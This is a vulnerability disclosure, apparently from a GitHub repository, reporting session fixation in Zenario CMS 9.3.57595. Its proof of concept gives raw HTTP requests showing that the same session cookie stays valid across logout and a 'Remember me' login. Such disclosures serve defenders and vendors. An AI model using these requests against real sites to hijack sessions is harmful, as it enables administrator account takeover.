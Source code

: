 # Session Fixation

Description: In Zenario CMS user session identifier (authentication token) is issued to the browser prior to authentication but is not changed after user logout and login again into the application when "Remember me" option active. Failing to issue a new session ID following a successful login introduces the possibility for an attacker to set up a trap session on the device the victim is likely to login with.

The product(s): https://zenar.io

Affected product(s)/code base: https://github.com/TribalSystems/Zenario

Affected component(s): /Zenario-9.3.57595/zenario/admin/welcome.ajax.php

Tested version: Zenario-9.3.57595

Proof of Concept:

1. Logout with current session to confirm the session is not valid

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=logout&get=%7B%22task%22%3A%22logout%22%2C%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 19
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?task=logout&cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_fill=true&_values=
```

![](images/logout.png)

To confirm, request change password for admin is not success.

![](images/change-pass-fail.png)

2. Login as administrator with "Remember me".

Burpsuite Request:

``` txt
POST /Zenario-9.3.57595/zenario/admin/welcome.ajax.php?task=&get=%7B%22cID%22%3A%221%22%2C%22cType%22%3A%22html%22%7D HTTP/1.1
Host: localhost
Content-Length: 726
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost
Referer: http://localhost/Zenario-9.3.57595/admin.php?cID=1&cType=html
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9
Cookie: PHPSESSID-Zenario_9_3_57595=mbu2ar0qnut2bmibuka94fq1ue
Connection: close

_validate=true&_box={"tab"%3a"~login","tabs"%3a{"login"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"reset"%3a{"_was_hidden_before"%3atrue},"description"%3a{},"secure_connection"%3a{"_was_hidden_before"%3atrue},"not_secure_connection"%3a{},"username"%3a{"current_value"%3a"~leecybersec~40gmail~2Ecom"},"password"%3a{"current_value"%3a"~leecybersec"},"admin_login_captcha"%3a{"_was_hidden_before"%3atrue,"current_value"%3a""},"remember_me"%3a{"current_value"%3atrue},"admin_link"%3a{},"login"%3a{"pressed"%3atrue},"forgot"%3a{"pressed"%3afalse},"previous"%3a{"pressed"%3afalse}}},"forgot"%3a{"edit_mode"%3a{"on"%3a1},"fields"%3a{"description"%3a{},"email"%3a{"current_value"%3a""},"previous"%3a{},"reset"%3a{}}}},"path"%3a"~login"}
```

![](images/login.png)

To confirm, request change password for admin is success.

![](images/change-pass-success.png)

Discoverer(s)/Credits: CMCSOC Redteam (@lithonn)

- Ngo Van Tu (@leecybersec)
- Tran Thi Nho (@nhott)
- Huynh Nhat Hao (@h40huynh)
- Le Thi Huyen My (@Huy3nMy)
